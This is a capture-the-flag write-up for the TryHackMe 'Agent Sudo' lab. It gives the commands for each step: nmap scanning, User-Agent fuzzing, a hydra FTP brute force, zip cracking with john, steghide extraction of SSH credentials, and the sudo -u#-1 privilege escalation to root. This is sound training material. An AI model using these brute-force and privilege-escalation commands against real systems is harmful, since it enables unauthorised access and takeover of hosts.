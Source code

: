 # Agent Sudo TryHackMe

## 2024-01-02, Joakim Oscarsson

### Problem description

Capture the flag!

### Solution

###  nmap

nmap -sV -oN "output_nmap.txt" <ip>
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))


### Dirbuster

No good results

### fuff
ffuf -w ./new_usernames.txt -u http://10.10.0.204/index.php -H "User-Agent: FUZZ" -fs 422

No good results

After changing the User-Agent to "C" we get the username "chris" so we use that as name for FTP login

### hydra
(another good password file is rockyou.txt)
hydra -l chris -P ./passwords.txt -V -I ftp://10.10.46.46

With this tool, we found that the FTP password was "crystal" for user chris.

On the ftp server there were a bunch of files, one jpg, one png and a textfile.

Apparently one of the images seem to contain a zip file, so we use the tool binwalk to see whats inside

### binwalk

binwalk -e cutie.png

This gives us an extracted folder containing an empty text file and some ziped folder. The ziped folder is extracted with 7z x 8702.zip but it asks for password so we need to crack it.

### zip2john

This tool can crack a zip file password

we use the command: zip2john 8702.zip > hash.txt to extract the hashed password.

### john the ripper

Then we use the command john hash.txt to get the password "alien".

### base64

The ziped directory contains a text file with a word "QXJlYTUx", this is encoded in base64 and translates into "Area51". 

### steghide

Since the question asks for a steg password we try to input "Area51" and that is correct. But this means that the jpg might contain a secret message. So we use the command: steghide extract -sf cute-alien.jpg and get that the user's name is "james" and the ssh password is "hackerrules!".

### ssh

After running ssh james@10.10.152.222 with password "hackerrules!" we get the user.txt flag and an image of an alien which we download by exiting ssh and then from our local user types: scp james@10.10.152.222:Alien_autopsy.jpg . 

### privilege escalation

Now we want to escalate our privileges by becoming root. By running sudo -l we see that our permission is:
(ALL, !root) /bin/bash

This means that we can run /bin/bash as any user except root. By googling this we find an exploit where one can type sudo -u#-1 /bin/bash to gain root access. This is due to sudo not verifying the existence of -1 and when it returns with the value 0, we gain root privileges.

### root

Now we have root access so we just cd into root and take our flag!
